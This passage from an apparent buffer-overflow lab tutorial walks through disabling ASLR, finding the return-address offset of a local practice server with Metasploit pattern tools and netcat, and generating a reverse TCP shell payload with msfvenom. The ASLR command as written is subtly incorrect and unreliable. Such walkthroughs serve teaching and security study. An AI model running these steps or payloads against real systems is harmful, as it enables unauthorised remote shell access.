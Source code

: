 Address Space Layout Randomization (ASLR) randomizes memory addresses to make buffer overflow attacks harder. We need to disable it to ensure our exploit works consistently:

```bash
sudo echo 0 > /proc/sys/kernel/randomize_va_space
```

This command writes "0" to the kernel parameter that controls ASLR, effectively disabling it for the entire system.

### Step 2: Determining the Buffer Size

Before we can craft an effective exploit, we need to know exactly how many bytes it takes to reach and overwrite the return address. We'll use a unique pattern to determine this:

```bash
# Generate a pattern of 1000 characters
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000 > pattern.txt

# Start the vulnerable server with port number
./tcpserver-basic 40000

# In another terminal, send the pattern to the server
cat pattern.txt | nc localhost 40000
```

When the program crashes, we examine the crash information:

```bash
# Check the segmentation fault details
dmesg | tail
```

This will show us the value in the EIP/RIP register at the time of crash (e.g., 0x41367241). Now we can find the exact offset:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41367241
```

Let's assume the offset is 512 bytes - this is the number of bytes we need to send before we reach the return address.

### Step 3: Crafting the Shellcode

Now we'll create a reverse shell payload using `msfvenom`:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python -b "\x00" -v shellcode
```

This command generates a shellcode that:
- Creates a reverse TCP shell (`linux/x86/shell_reverse_tcp`)
- Connects back to our attacking machine at IP 192.168.1.100 (change to your IP)
- Uses port 4444 for the connection
- Outputs the shellcode in Python format (`-f python`)
- Avoids null bytes (`-b "\x00"`) which could terminate the buffer
- Assigns the shellcode to a variable named "shellcode" (`-v shellcode`)

